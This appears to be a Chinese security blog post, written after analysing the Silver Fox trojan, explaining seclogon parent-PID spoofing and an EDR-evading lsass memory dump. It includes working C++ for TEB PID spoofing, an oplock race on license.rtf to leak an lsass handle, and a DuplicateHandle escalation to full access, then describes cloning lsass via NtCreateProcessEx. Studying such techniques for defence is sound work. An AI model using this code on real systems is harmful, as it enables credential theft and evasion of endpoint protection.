


# 利用 Seclogon PPID Spoofing 实现 dump lsass 内存

最近分析银狐木马，发现其中利用 seclogon 服务实现了了一种父进程欺骗技术，就阅读了技术 [原文](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html) 并做了以下总结。

## Seclogon PPID Spoofing

### seclogon 流程分析

seclogon，叫做辅助登录服务，该服务是一个 RPC 服务。其主要功能为模拟特定用户登录并创建进程，通过观察其 idl 文件可以发现其主要实现了 `SeclCreateProcessWithLogonW` 函数。


每当在程序中调用由 advapi32.dll 导出的 [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) 或 [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) 的时候都会触发 RPC 调用，从而进入 seclogon 服务中。


整体流程如下：



任何进程在创建时都需要明确其父进程，正常调用 `CreateProcessWithTokenW` 或 `CreateProcessWithLogonW` 创建新进程时默认父进程为当前进程，也就意味着 seclogon 服务中会获取到 **调用方**的 PID。通过逆向分析或查看 XP 源码可以发现  `SlrCreateProcessWithLogon` 在创建新进程前会尝试打开目标进程以确保传入的 PID 是合法的。


其中打开的进程句柄就是属于 **调用方**的进程句柄，该句柄会用于之后的一系列操作，以创建新请求的进程。例如，之后的更改新进程的父 PID，更新进程属性，以便将其与**调用方**匹配后再通过 `CreateProcessAsUserW` 进行实际进程创建。


### PPID Spoofing

我们可以观察到 seclogon 在确定**调用方**的时候是通过 `psli->dwProcessId` 值获取的进程 ID，那么这个值是从哪里来的呢。分析调用调用链上的所有函数，最终找到其是在 `CreateProcessWithLogonCommonW` 中通过 `GetCurrentProcessId` 进行的赋值。


而 `GetCurrentProcessId` 不必多说，其是在当前线程 TEB 中获取进程 ID 的。


这也就意味 seclogon 中的 `OpenProcess` 操作的输入参数 PID 是完全可控的，只需要修改 TEB 中的对应内存即可以完成父进程欺骗。

``` cpp
void SpoofPidTeb(DWORD spoofedPid, PDWORD originalPid, PDWORD originalTid) {
    CLIENT_ID CSpoofedPid;
    *originalPid = GetCurrentProcessId();
    *originalTid = GetCurrentThreadId();
    CLIENT_ID* pointerToTebPid = &(NtCurrentTeb()->ClientId);
    CSpoofedPid.UniqueProcess = (HANDLE)spoofedPid;
    CSpoofedPid.UniqueThread = (HANDLE)*originalTid;
    memcpy(pointerToTebPid, &CSpoofedPid, sizeof(CLIENT_ID));
}
```

## Dump lsass

好了，接下来就是紧张刺激的 dump lsass 环节了。

先整理下 dump lsass 的基本流程。在不考虑 EDR/AV 的情况下，

1. 通过 [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) 调用打开对 **lsass PID** 的进程句柄，访问权限为 _PROCESS_QUERY_INFORMATION_ 和 _PROCESS_VM_READ_
2. 使用 [MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) 读取 lsass 的所有进程地址空间，并将其保存到磁盘上的文件中。注意，_MiniDumpWriteDump_ 严重依赖于 [NtReadVirtualMemory](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FMemory%20Management%2FVirtual%20Memory%2FNtReadVirtualMemory.html) 系统调用的使用，该调用允许它读取**远程**进程的内存。

是的，就是这么简单，但实际上，直接进行 dump 会引发 EDR/AV 的告警，接下来就是要研究如何实现对 EDR/AV 的绕过。

### 获取句柄

既然我们直接打开 lsass 的进程句柄会触发告警，那么可以通过一个 EDR/AV 信任的第三方进程打开句柄，而我们只需要复制这个句柄到自己的进程中就可以了。上述 seclogon PPID spoofing 的过程中调用了 `OpenProcess`，所以我们只需要通过传入 lsass 的进程 ID，seclogon 会主动帮我们打开目标进程。

但是，我们又面临了两个问题。

1. 这个句柄并不会一直有效，在创建进程后其会被释放掉，所以我们要在其有效期内完成 dump，或者通过条件竞争使其在我们复制完成后再释放。
2. [**MiniDumpWriteDump**](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) 需要  _PROCESS_QUERY_INFORMATION_ 和 _PROCESS_VM_READ_ 权限，而 seclogon 打开的句柄权限不够。

**有问题那就解决问题！**

#### 条件竞争保证句柄有效

为保证句柄在我们复制之前始终有效，最好的办法就是找到一些涉及文件的操作，并在其上设置一个 [OpLock](https://github.com/googleprojectzero/symboliclink-testing-tools/blob/main/CommonUtils/FileOpLock.cpp)  以阻塞执行流，这样我们就可以在 `CloseHandle` 调用之前复制该句柄。

但实际上，通过检查 `OpenProcess` 和 `CloseHandle` 之间的所有代码，找不到任何与文件相关的函数 😕

但是，`CloseHandle` 调用之前会调用 [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasuserw)


`CreateProcessAsUser` 允许在指定令牌表示的用户的安全上下文中创建新进程。执行一些准备步骤后，它会从 kernel32.dll 调用 `CreateProcessInternalW`，该函数会在进入内核 `NtCreateUserProcess` 之前做好所有的准备工作。在内核中执行的操作之一是打开提供的文件路径并创建 section 对象。


谁说 EXE 一定要是一个 EXE 呢 😆

我们可以针对某个文件创建 [OpLock](https://github.com/googleprojectzero/symboliclink-testing-tools/blob/main/CommonUtils/FileOpLock.cpp)，并将其作为 `CreateProcessAsUser` 的参数进行传递。这样，在 `NtCreateUserProcess` 创建 Section 时就可以将其阻塞，来让我们有足够的时间去复制句柄。

``` cpp
// credits to @tirannido
// took from --> https://github.com/googleprojectzero/symboliclink-testing-tools/blob/main/CommonUtils/FileOpLock.cpp
void CreateFileLock(HANDLE hFile, LPOVERLAPPED overlapped) {
    REQUEST_OPLOCK_INPUT_BUFFER inputBuffer;
    REQUEST_OPLOCK_OUTPUT_BUFFER outputBuffer;
    inputBuffer.StructureVersion = REQUEST_OPLOCK_CURRENT_VERSION;
    inputBuffer.StructureLength = sizeof(inputBuffer);
    inputBuffer.RequestedOplockLevel = OPLOCK_LEVEL_CACHE_READ | OPLOCK_LEVEL_CACHE_HANDLE;
    inputBuffer.Flags = REQUEST_OPLOCK_INPUT_FLAG_REQUEST;
    outputBuffer.StructureVersion = REQUEST_OPLOCK_CURRENT_VERSION;
    outputBuffer.StructureLength = sizeof(outputBuffer);
    DeviceIoControl(hFile, FSCTL_REQUEST_OPLOCK, &inputBuffer, sizeof(inputBuffer), &outputBuffer, sizeof(outputBuffer), NULL, overlapped);
    DWORD err = GetLastError();
    if (err != ERROR_IO_PENDING) {
        printf("Oplock Failed %d\n", err);
        exit(-1);
    }
}

void LeakLsassHandleInSeclogonWithRaceCondition(DWORD lsassPid) {
    wchar_t fileToLock[] = L"C:\\Windows\\system32\\license.rtf";
    OVERLAPPED overlapped;
    DWORD dwBytes;
    THREAD_PARAMETERS thread_params;
    HANDLE hFile = CreateFile(fileToLock, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_FLAG_OVERLAPPED, NULL);
    overlapped.hEvent = CreateEvent(NULL, FALSE, FALSE, NULL);
    CreateFileLock(hFile, &overlapped);
    thread_params.pid = lsassPid;
    thread_params.cmdline = fileToLock;
    // we need to run CreateProcessWithToken() in a separate thread because the file lock would also lock our thread
    CreateThread(NULL, 0, ThreadSeclogonLock, (LPVOID)&thread_params, 0, NULL);
    // this call will halt the current thread until someone will access the locked file. We expect seclogon trying to access license.rtf when calling CreateProcessAsUser()
    if (!GetOverlappedResult(hFile, &overlapped, &dwBytes, TRUE)) {
        printf("Oplock Failed. Exiting...\n");
        exit(-1);
    }
    printf("Seclogon thread locked. A lsass handle will be available inside the seclogon process!\n");
```

#### DuplicateHandle 泄露高权限句柄

seclogon 泄露的句柄不包含我们需要的 _PROCESS_VM_READ_ 权限。相对的，其包含了 **PROCESS_DUP_HANDLE** 权限。而通过 [@tirannido](https://twitter.com/tiraniddo) 提供的 [方法](https://www.tiraniddo.dev/2017/10/bypassing-sacl-auditing-on-lsass.html) ，只要 lsass 拥有 **PROCESS_DUP_HANDLE** 的访问权限，就可以从**泄露的句柄**开始获取 lsass **的完整访问**进程句柄。

> "The DuplicateHandle system call has an interesting behaviour when using the pseudo current process handle, which has the value -1. Specifically if you try and duplicate the pseudo handle from another process you get back a full access handle to the source process." quote from **[Bypassing SACL Auditing on LSASS](https://www.tiraniddo.dev/2017/10/bypassing-sacl-auditing-on-lsass.html)**.

所以只需要这样，就可以获得拥有 lsass 进程完整访问权限的句柄。

``` cpp
DuplicateHandle((HANDLE)leakedHandle, (HANDLE)-1, GetCurrentProcess(), &hLeakedHandleFullAccess, 0, FALSE, DUPLICATE_SAME_ACCESS);
```

到目前为止，已经拿到了 lsass 的进程句柄。

下一步就是…，dump!!!

### 调用 MiniDumpWriteDump

直接调用 `MiniDumpWriteDump` 就可以完成对 lsass 的 dump，但 EDR/AV 会告警，主要原因是其中直接调用了 `NtReadVirtualMemory` 对 lsass 进行了内存读取这种高危操作。

#### NtCreateProcessEx 创建克隆进程

内核中存在一个函数 `MiCloneProcessAddressSpace`,其功能为遍历所有 PTE 并 clone 内存。


查找其交叉引用可以发现如下调用链。这意味着我们可以通过调用 `NtCreateProcessEx` 创建一个内存完全 clone 自 lsass 的全新进程 (具体分析可以参考 [该文章](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/))，之后可以通过对该进程进行内存 dump 间接获取到 lsass 的内存。



调用 `NtCreateProcessEx` 需要的 lsass 句柄权限主要是 `PROCESS_CREATE_PROCESS`，seclogon 打开的句柄已经包括该权限，所以使用这种方法的话，其实就不必上述的 [DuplicateHandle 泄露高权限句柄](#duplicatehandle-泄露高权限句柄) 了。

之后只需要针对新 clone 出的进程正常调用 `MiniDumpWriteDump` 就可以了。

## 参考

- [The hidden side of Seclogon part 2: Abusing leaked handles to dump LSASS memory](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
- [The hidden side of Seclogon part 3: Racing for LSASS dumps](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [Abusing Windows’ Implementation of Fork() for Stealthy Memory Operations](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Tyranid's Lair: Bypassing SACL Auditing on LSASS](https://www.tiraniddo.dev/2017/10/bypassing-sacl-auditing-on-lsass.html)
- [Dumping LSASS with Duplicated Handles](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)
- [再谈银狐：百变木马阴魂不散](https://weishi.360.cn/n/12634.html)
- [红队视角下的Windows RPC](https://www.secrss.com/articles/48320)

